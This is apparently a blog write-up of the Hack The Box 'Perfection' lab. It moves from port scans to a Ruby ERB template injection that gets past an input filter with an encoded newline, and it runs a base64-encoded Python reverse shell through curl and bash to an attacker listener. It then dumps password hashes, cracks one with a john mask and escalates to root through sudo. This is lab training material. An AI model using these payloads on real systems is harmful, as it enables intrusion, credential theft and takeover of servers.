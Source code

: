 ```yaml
---
layout: post
author: Julio
date: 11-05-2024
title: Perfection Write-Up
---
```


# Perfection Write-Up

<div class="center"><img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="350"></div>

## Introduction

## First Steps

<p>We will first run an Nmap scan to discover all open ports:</p>

```bash
sudo nmap -p- -T4 --open -Pn 10.10.11.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:06 CEST
Nmap scan report for 10.10.11.253
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.85 seconds

```

<p>Then, we can run Nmap with flags to get the services and their versions:</p>

```bash
sudo nmap -sC -sV -p22,80 10.10.11.253 --open -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2024-05-11 17:09 CEST
Nmap scan report for 10.10.11.253
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds

```

<p>We see that there's a website called "Weighted Grade Calculator". Once we access the website, we get to the following functionality:</p>

<div class="center"><img src="/assets/images/screenshots/htb-perfection-website1.png"></div>

## User Flag

<p>We can fill out the fields seen above and send the request. With Burp Suite, we can intercept it to see what is going on. Then, we can alter one of the parameters to test for SSTI vulnerabilities:</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1={{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>In the response, however, we see that the application is returning "Malicious input blocked".</p>

```html
[...snip]
       <p>Please enter a maximum of five category names, your grade in them out of 100, and their weight. Enter "N/A" into the category field and 0 into the grade and weight fields if you are not using a row.</p>
      </form>
      Malicious input blocked
    </div>
  </div>
[...snip]
```

<p>However, we can bypass the checks by adding a URL-encoded new line character (<custom-code>%0a</custom-code>).</p>

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a{{7*7}}&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>We see that the response no longer returns "Malicious input blocked".</p>

```html
[...snip] Your total grade is 80%
<p>aa {{7*7}}: 16%</p>
[...snip]
```

<p>We saw a reference to Sinatra in the error page, which means that the application is likely developed in Ruby. We can then try the following SSTI payload for Ruby's ERB: <custom-code><%= 7*7 %> </custom-code></p>

```html
     </form>
      Your total grade is 80%<p>aa
49 : 16%</p>
```

<p>And, as seen above, it worked. We can now geenrate a reverse shell payload with GoPariah and send it in the request</p>´

```bash
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=aa%0a<%25%3d+system("curl+10.10.16.8:9001?p=$(echo+-n+cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjgiLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc%3d+|+base64+-d+|+bash)")+%25>&grade1=80&weight1=20&category2=Category2&grade2=80&weight2=20&category3=Category3&grade3=80&weight3=20&category4=Category4&grade4=80&weight4=20&category5=Category5&grade5=80&weight5=20
```

<p>We will open a listener before sending it and we will get a connection back as "susan"</p>

```bash
nc -l 9001
susan@perfection:~/ruby_app$
```

<p>We're in! Once we are inside the machine, we can read the user flag</p>

## Root Flag

<p>Inside the machine, we can see that there's an email to susan:</p>

```bash
susan@perfection:~$ cat /var/spool/mail/susan
cat /var/spool/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

<p>Brute-forcing the password would probably be impossible. However, in the home directory we find a folder called "Migration" that contains a database</p>

```bash
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ file pupilpath_credentials.db
file pupilpath_credentials.db
pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
```

<p>We can use sqlite3 to open it</p>

```bash
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db
sqlite3 pupilpath_credentials.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
.tables
users
sqlite> select * from users;
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

<p>we can then use john with a mask to achieve</p>

```bash
Tools/john/run/john --format=raw-sha256 --mask=susan_nasus_\?d\?d\?d\?d\?d\?d\?d\?d\?d hashcrackmeplz
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
susan_nasus_413759210 (?)
1g 0:00:00:06 DONE (2024-05-11 17:48) 0g/s 14980Kp/s 14980Kc/s 14980KC/s susan_nasus_692759210..susan_nasus_003759210
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

<p>Now that we know her password, we can</p>

```bash
susan@perfection:~/Migration$ sudo -l
sudo -l
[sudo] password for susan: susan_nasus_413759210

Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~/Migration$ sudo su
sudo su
root@perfection:/home/susan/Migration#
```

<p>We can now read the root flag.</p>

<p>That's all, folks!</p>

